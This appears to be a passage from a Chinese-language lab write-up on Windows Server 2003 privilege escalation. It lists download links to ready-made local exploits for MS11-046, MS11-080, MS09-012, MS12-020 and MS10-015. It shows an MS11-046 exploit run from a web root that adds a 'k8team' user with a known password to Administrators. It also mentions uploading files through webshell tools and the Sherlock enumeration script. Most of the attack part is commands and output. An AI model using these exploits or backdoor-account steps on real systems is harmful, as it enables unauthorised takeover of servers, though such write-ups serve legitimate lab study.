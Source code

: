 ```bash
vul: MS11-046, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS11-046-KB2503665-CVE-2011-1249.rar
vul: MS11-080, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS11-080-KB2592799-CVE-2011-2005.rar
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS09-012-KB952004-CVE-2009-0079-Churrasco.rar
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS09-012-KB952004-CVE-2009-0079-PR.rar
vul: MS12-020, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS12-020-KB2621440-CVE-2012-0002.rar
vul: MS10-015, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS10-015-KB977165-CVE-2010-0232-Ms-Viru.rar
```

试试  `ms11_046` 

```bash
C:\Inetpub\wwwroot\> MS11_46.exe
[>] ms11-046 Exploit
[*] Token system command
[*] command add user k8team k8team
[*] User has been successfully added
[*] Add to Administrators success


C:\Inetpub\wwwroot\> whoami
nt authority\network service


C:\Inetpub\wwwroot\> net user

\\ROOT-032E83FDAC 的用户帐户

-------------------------------------------------------------------------------
abc                      admin                    Administrator            
Guest                    IUSR_ROOT-032E83FDAC     IWAM_ROOT-032E83FDAC     
k8team                   SUPPORT_388945a0         
命令成功完成。
```

成功添加 `k8team` 用户到管理员组。密码也是 `k8team`

结果几秒之后，我 win2003 蓝屏了。

[![DEazZV.png](https://s3.ax1x.com/2020/11/16/DEazZV.png)](https://imgchr.com/i/DEazZV)

**ps : 我还发现如果我直接将本机的文件拖到win2003,权限是没有集成win2003父文件夹的，只有 system，administrator才能操作。而从菜刀等工具上传则会继承，也可以执行。**

**Sherlock**

https://github.com/rasta-mouse/Sherlock

win7  ----- powershell
